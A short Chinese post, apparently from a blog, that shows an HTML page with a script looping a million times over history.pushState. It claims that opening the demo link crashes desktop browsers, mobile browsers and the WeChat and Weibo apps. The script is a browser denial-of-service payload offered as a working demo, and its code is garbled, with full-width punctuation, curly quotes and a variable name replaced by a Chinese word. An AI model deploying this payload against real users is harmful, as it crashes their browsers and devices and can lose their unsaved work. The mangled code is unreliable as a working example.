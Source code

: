 * <HTML>
<BODY>
<SCRIPT>
var total =“”;
for（var i = 0; i <1000000; i ++）{
   total = total + i.toString（）;
   history.pushState（0,0，总计）;
}
</ SCRIPT>
</ BODY>
</ HTML>
演示:(温馨提示：请保存浏览器其它窗口的编辑任务）

接来下会发生什么？
点开以后，是这样的：

如果你是PC端用户，点开链接以后，电脑CPU内存极有可能一路狂飙直至浏览器崩溃卡死！
如果你是移动端（安卓，iPhone）用户，点开链接以后你的浏览器会闪退！在微博，微信客户端点开链接同样会闪退.iPhone用Safari打开之后链接之后，手机注销重启了！...
